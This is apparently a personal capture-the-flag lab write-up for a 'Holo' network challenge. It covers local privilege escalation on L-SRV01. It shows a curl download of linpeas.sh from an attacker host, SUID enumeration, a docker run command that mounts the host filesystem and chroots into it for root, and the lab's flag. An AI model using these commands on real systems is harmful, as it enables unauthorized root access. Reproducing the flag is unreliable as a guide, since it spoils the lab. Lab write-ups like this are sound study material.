 
We have shell on L-SRV01 and escaped the container, we need to perform
local privilege escalation to gain root on the box.

Will download the linpeas script using the curl command.
```
curl -O http://10.50.104.169:8080/linpeas.sh
```


or save a file with specific name
```
curl -o enum.sh  http://10.50.104.169:8080/linpeas.sh
```

As we lost the connect will wait for 15 minutes and see what thing we have to see in the linpeas output.

I think we can't download the scrip so will run the command manually as well as do the enumeration manually.

Already know about the SUID concept as well as we also have the command in order to check specifically for that.
```
find / -perm -u=s -type f 2>/dev/null
```

![[Pasted image 20240225114721.png]]

```
docker ps -a
```
![[Pasted image 20240225115238.png]]

```
./docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
So what i was doing wrong i that we have to replace the alphine with the IMAGE id

```
./docker run -v /:/mnt --rm -it cb1b741122e8 chroot /mnt sh
```
this command also gives error
https://stackoverflow.com/questions/43099116/error-the-input-device-is-not-a-tty

We have to remove the t from the -it 


```
docker run -v /:/mnt --rm -i cb1b741122e8 chroot /mnt sh
```
![[Pasted image 20240225115552.png]]

![[Pasted image 20240225120029.png]]

Finally we escalated and got the root user
![[Pasted image 20240225120209.png]]

As we are root now so will find the root flag (i.e. there is no root flag in the root folder)
But we have to do into the mnt folder and can simply find the root flag there.

```
HOLO{e16581b01d445a05adb2e6d45eb373f7}
```

